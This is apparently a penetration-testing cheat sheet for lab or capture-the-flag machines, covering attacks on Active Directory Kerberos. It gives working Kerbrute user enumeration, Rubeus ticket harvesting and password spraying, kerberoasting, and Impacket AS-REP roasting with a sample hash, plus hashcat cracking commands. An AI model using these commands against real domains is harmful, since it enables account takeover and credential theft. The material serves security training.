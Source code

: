 # Active Directory

## Kerberos

Kerberos is the default authentication service for Microsoft Windows domains. It is intended to be more "secure" than NTLM by using third party ticket authorization as well as stronger encryption. Even though NTLM has a lot more attack vectors to choose from Kerberos still has a handful of underlying vulnerabilities just like NTLM that we can use to our advantage.

Common Terminology -  

Ticket Granting Ticket (TGT) - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
Key Distribution Center (KDC) - The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service.
Authentication Service (AS) - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets.
Ticket Granting Service (TGS) - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain.
Service Principal Name (SPN) - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
KDC Long Term Secret Key (KDC LT Key) - The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.
Client Long Term Secret Key (Client LT Key) - The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
Service Long Term Secret Key (Service LT Key) - The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
Session Key - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
Privilege Attribute Certificate (PAC) - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

### Enumeration w Kerbrute 

You need to add the DNS domain name with the machine IP to /etc/hosts `10.10.253.78  CONTROLLER.local`

1. Link: (Kerbrute GitHub)[https://github.com/ropnop/kerbrute/releases]
2. rename kerbrute_linux_amd64 to kerbrute
3. make it executable `chmod +x kerbrute`

### Enumerate Users w Kerbrute

1. You need a wordlist for Users -> (User.txt)[https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt]
2. 
```console
$ ./kerbrute userenum --dc 10.10.227.157 -d spookysec.local userlist.txt

Version: v1.0.3 (9dad6e1) - 03/12/22 - Ronnie Flathers @ropnop

2022/03/12 12:12:10 >  Using KDC(s):
2022/03/12 12:12:10 >   10.10.227.157:88

2022/03/12 12:12:11 >  [+] VALID USERNAME:       james@spookysec.local
2022/03/12 12:12:12 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2022/03/12 12:12:13 >  [+] VALID USERNAME:       James@spookysec.local
2022/03/12 12:12:13 >  [+] VALID USERNAME:       robin@spookysec.local
2022/03/12 12:12:18 >  [+] VALID USERNAME:       darkstar@spookysec.local
2022/03/12 12:12:20 >  [+] VALID USERNAME:       administrator@spookysec.local
2022/03/12 12:12:26 >  [+] VALID USERNAME:       backup@spookysec.local
2022/03/12 12:12:28 >  [+] VALID USERNAME:       paradox@spookysec.local
2022/03/12 12:12:45 >  [+] VALID USERNAME:       JAMES@spookysec.local
2022/03/12 12:12:51 >  [+] VALID USERNAME:       Robin@spookysec.local
2022/03/12 12:13:25 >  [+] VALID USERNAME:       Administrator@spookysec.local
2022/03/12 12:14:36 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2022/03/12 12:14:59 >  [+] VALID USERNAME:       Paradox@spookysec.local
2022/03/12 12:16:09 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2022/03/12 12:16:32 >  [+] VALID USERNAME:       ori@spookysec.local
2022/03/12 12:17:16 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2022/03/12 12:19:04 >  Done! Tested 73317 usernames (16 valid) in 413.056 seconds

```

### Harvesting/ Bruteforce Tickets w Rubeus

**Harvesting:**
You have to run it on attacker machine!
Link: (Rubeus GitHub)[https://github.com/GhostPack/Rubeus]

```console
$ Rubeus.exe harvest /interval:30

 - This command tells Rubeus to harvest for TGTs every 30 seconds
```
**Bruteforce**
Add the domain controller to windows hosts file `echo 10.10.253.78 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

```console
$ Rubeus.exe brute /password:Password1 /noticket

- This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user
```

### Kerberoasting w Rubeus & Impacket

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.

**Method1: Rubeus**
```console
$ Rubeus.exe kerberoast 

- This will dump the Kerberos hash of any kerberoastable users

```

Copy the hash to your machine and crack it with hashcat

```console
$ hashcat -m 13100 -a 0 hash.txt wordlist.txt
```

**Method2: Impacket**

```console
$ cd /usr/share/doc/python3-impacket/examples/

$ ./GetNPUsers.py -no-pass -dc-ip 10.10.227.157 spookysec.local/svc-admin                                                                
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:a9edf52350a4fa9634c1b0b8e88f180a$c4a770ce5ed7bfd6a853d0b16e279ad198530c0961bc03ebdb06cb22d65bef73422d803022e76893f27a2002130ceb7ad27ddbef1d13e878e8d41c40cdd4a3535af63f9c2de2a906873a89f3b73283d2df3d58736540ea611af315beb84c9ec36b3120e03e67c96b993c47467cfb727deb94778558a6b5b937c8f64b063114edbf146607828f969198eb3cbf88fa2b0a761ae2e6e12b5a579ec8a13b7543fd8c6b06eb1ed8e72d51c1e3d65f1aafd635e81dd0660aa09043918f7382eadb1725516872a8c4bdcdb6279a501efdb84cb37176ea95d23783f9a481e0c028581186ce6d7a96aac32ab8152a7317c1d278935ebc

$ hashcat -m 18200 -a 0 hash.txt passwordlist.txt
```